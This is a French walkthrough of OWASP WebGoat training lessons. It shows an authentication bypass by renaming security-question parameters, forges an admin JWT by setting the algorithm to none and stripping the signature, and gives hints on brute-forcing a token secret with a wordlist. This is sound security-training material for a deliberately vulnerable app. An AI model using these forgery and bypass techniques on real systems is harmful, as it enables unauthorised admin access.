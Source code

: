 *   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Cliquer sur **Submit** sans rentrer de paramètres.
*   Repérer la requête vers `verify-account` dans l'onglet _Réseau_ et cliquer sur _Modifier et renvoyer_.
*   Modifier les paramètres `secQuestion0=&secQuestion1=&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=yourid` en `secQuestion2=&secQuestion3=&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=yourid`.

![Authentification Bypass](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/authentification-bypass-2.png)

##### JWT tokens

4.  
![Warning](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/warning.png)  Le numéro de leçon ne devient pas vert après validation.

![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Select a different user and look at the token you receive back, use the delete button to reset the votes count  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Decode the token and look at the contents  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Change the contents of the token and replace the cookie before sending the request for getting the votes  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Change the admin field to true in the token  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Submit the token by changing the algorithm to None and remove the signature

*   Ouvrir les _Outils de développements_ du navigateur, et aller dans l'onglet _Réseau_.
*   Sur WebGoat, se connecter avec Tom et cliquer sur **Reset Votes**.
*   Repérer la requête vers `reset` dans l'onglet _Réseau_ et cliquer sur _En-têtes_.
*   Remarquer l'en-tête : 
```
Cookie: access_token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1NjQ0MDIyNDQsImFkbWluIjoiZm
Fsc2UiLCJ1c2VyIjoiVG9tIn0._gPSRvB9wAAruFwaDgivXp4n5rHQFi5hTOJsVFqCkR9ZDUf3LhCgJQ
uTIIpTGnZIS3XWL9MHZGaExJC7XhIiXA
```
*   En base64, cela se décode en : `{"alg":"HS512"}.{"iat":1564402244,"admin":"false","user":"Tom"}.signature`.
*   Le modifier en `{"alg":null}.{"iat":1564402244,"admin":"true","user":"Tom"}.`.
*   Le ré-encoder en base64 (`eyJhbGciOiBudWxsfQ==.eyJpYXQiOjE1NjQ0MDIyNDQsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJUb20ifQ==.`).
*   Cliquer sur _Modifier et Renvoyer_, modifier le cookie avec la nouvelle valeur générée, et renvoyer la requête.

![JWT 4](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/jwt-4.png)

![JWT 5](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/jwt-5-2.png)

5.  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Save the token and try to verify the token locally  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Download a word list dictionary (https://github.com/first20hours/google-10000-english)  
![Hint](https://raw.githubusercontent.com/PiAil/pwning-webgoat/master/images/wiki_owasp_webgoat/hint.png) Write a small program or use HashCat for brute forcing the token according the word list

Il est possible d'effectuer ce challenge à l'aide d'outils tels que **johntheripper** et https://jwt.io/, mais afin de mieux comprendre voilà un petit script Python.
